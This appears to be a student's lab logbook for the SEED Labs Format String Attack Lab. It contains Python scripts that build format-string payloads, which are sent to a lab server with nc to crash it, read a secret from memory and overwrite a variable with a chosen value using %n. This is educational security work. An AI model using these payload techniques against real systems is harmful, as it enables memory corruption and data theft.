







# LogBook6

## SEED Labs – Format String Attack Lab

### Task 1

Crashing the program. Doing `echo hello | nc 10.9.0.5 9090` causes no problems
and returns properly. Compiling attack-code/build\_string.py, will generate a
file named badfile. when we try to print this file by doing `cat badfile | nc
10.9.0.5 9090`, and redirect it's output to the server the program crashes.

build\_string.py code:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The crash itself was cause by the format specifier `%n` which tried to write to
an address which wasn't valid. There are other ways to crash the application,
for example, if a `%s` was sent, and the address that the format string tried
to look up on the stack wasn't a valid string, the execution would also be
halted. That can also be done on this lab. Since there are various ways to do
this, the simplest way to explain when the program will crash is:

When a format specifier is provided that doesn't match what is in memory, where
the argument to that specifier was expected to be in, a crash will occur.



### Task 2

#### 2-A

Our input starts with a succession of '0xaaaaaaaa' in hexadecimal. So it's
easier to identify where that sequence starts being printed on the server
output. Immediately after that we send a bunch of `%.8x` format specifiers,
hoping that one of those will eventually print out the first 4 bytes of our
input file.

```py
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes as 0xaaaaaaaa
content[0:4]  =  (0xAAAAAAAA).to_bytes(4, byteorder='little')

s = "%.8x"*100
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Here is the server output after sending the file generated by the previous
script:



As we can see in the produced output, it takes the server program 508
characters to print out the first bytes of our input. Since we sent
`0xaaaaaaaa`, which is 4 bytes this means that 504 bytes were printed by the
`%.8x` format specifiers. Dividing 504 by 8 gives us 63, meaning that the 64th
`%x` will print the first four bytes of our input.



#### 2-B

With the knowledge of the previous task, and by knowing the address of the
secret message, which is printed out by the program, we just have to send the
address, and the 64th format specifier will print the content of that address.
Knowing it's a message we use the string format specifier `%s`.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of secret message
target = 0x080b4008
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Here's the secret message printed out on the server's output:



### Task 3

#### 3-A

Now we have to write to an address, instead of just reading it. Luckily there's
a special format specifier, this is the `%n` format specifier. We can better
understand what it does by looking at the printf function documentation:



So if we append a `%n` and the argument looked up is the target address, the
number of characters printed before the `%n` format specifier is written to the
target address. To test this out we used the following code:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of target variable
target = 0x080e5068
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

After sending this as input the server, we can confirm that the target address
has been indeed modified.



#### 3-B

This time, we want to change the target content to a specific value. The value
we want to write in the target is 0x5000, which is 20480 in decimal. However
the buffer only has 1500 bytes allocated. Which means we don't have enough
memory available to send 20480 characters. To circumvent this limitation, we
make use of the format specifier padding functionality. Just as `%.8x` formats
an address to 4 bytes, padding the left side with zeros, we can write more
characters by providing a higher number than 8, and those characters are still
added to the counter of the `%n` written characters, even if they're just
zeros.

Since the value written on the previous task was 0x1fc, 508 in decimal, we need
to add 19972 characters to an `%x` format specifier, so the total is 20480.
Adding this will result in having 62 `%.8x` and 1 `%.19980x`. Such was written
on our exploit:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of target variable
target = 0x080e5068
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x" * 62 + "%.19980x" + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Target variable was overwriten with the desired value 0x5000:


